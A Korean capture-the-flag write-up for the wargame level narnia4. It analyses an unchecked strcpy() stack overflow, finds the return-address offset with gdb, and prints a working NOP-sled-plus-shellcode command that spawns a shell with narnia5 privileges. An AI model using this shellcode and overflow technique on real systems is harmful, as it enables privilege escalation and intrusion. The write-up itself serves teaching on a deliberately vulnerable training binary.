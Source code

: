 ## 1. 문제 확인
- ID : narnia4
- Target : /narnia/narnia4
- Flag : /etc/narnia_pass/narnia5
```
narnia4@gibson:/narnia$ ./narnia4
narnia4@gibson:/narnia$ ./narnia4 testtest
narnia4@gibson:/narnia$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
- 프로그램 실행 인자를 받아서 처리하지만, 아무런 출력은 하지 않음
![](https://velog.velcdn.com/images/g4nzzi/post/aad4b061-e74e-4124-beb2-b5e8fdb186ad/image.png)
### 2.2 Code 분석
- 전역변수 environ 
	
    전역변수 environ은 main()함수 스택 메모리 외부에 위치하며, 프로그램 실행 시 memset()에 의해 값이 "0"으로 초기화됨

- 지역변수 i, buffer
main()함수의 지역변수 i와 buffer[]가 선언되어 있으며, 공격에 buffer 배열을 이용할 수 있음

- strcpy()
	
    프로그램 실행인자의 개수(argc)가 1개 이상이면 입력된 값이 buffer로 복사되며 복사되는 데이터 사이즈가 지정되지 않았기 때문에 **overflow 취약점**이 존재함

<br/><br/>
## 3. Exploit
- gdb로 main()함수의 [Ret Address] 주소위치 확인 결과 "CCCC"(0x43434343)로 덮어써졌으니, buffer[] 시작주소로부터 264Byte 떨어진 위치로 확인
```
(gdb) r $(python3 -c 'print("A"*260 + "BBBB" + "CCCC" + "DDDD")')
Starting program: /narnia/narnia4 $(python3 -c 'print("A"*260 + "BBBB" + "CCCC" + "DDDD")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb)

```
- strcpy()로 buffer[]에 입력 데이터가 복사된 후 ESP 레지스터를 확인하여 (NOP + Shellcode)가 위치할 적당한 메모리 주소를 확인함(예: 0xffffd4fc)
```
(gdb) x/300wx $esp

...
0xffffd490:     0x00000000      0x00000000      0x1c000000      0x8208f99e
0xffffd4a0:     0x610d7c54      0xb09f1610      0x696c68bd      0x00363836
0xffffd4b0:     0x00000000      0x00000000      0x6e2f0000      0x696e7261
0xffffd4c0:     0x616e2f61      0x61696e72      0x41410034      0x41414141
0xffffd4d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd500:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd510:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd520:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd530:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd540:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd550:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd560:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x41414141      0x41414141      0x42424141
0xffffd5d0:     0x43434242      0x44444343      0x00004444      0x00000000
0xffffd5e0:     0x00000000      0x00000000      0x00000000      0x00000000

```

- 실행인자(argv)로 (NOP + Shellcode)**[264Byte]** + (Ret Address)**[4Byte]**를 입력하면 쉘코드가 실행됨
```
narnia4@gibson:/narnia$ ./narnia4 `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80\xfc\xd4\xff\xff"`
$ id
uid=14005(narnia5) gid=14004(narnia4) groups=14004(narnia4)
$
```
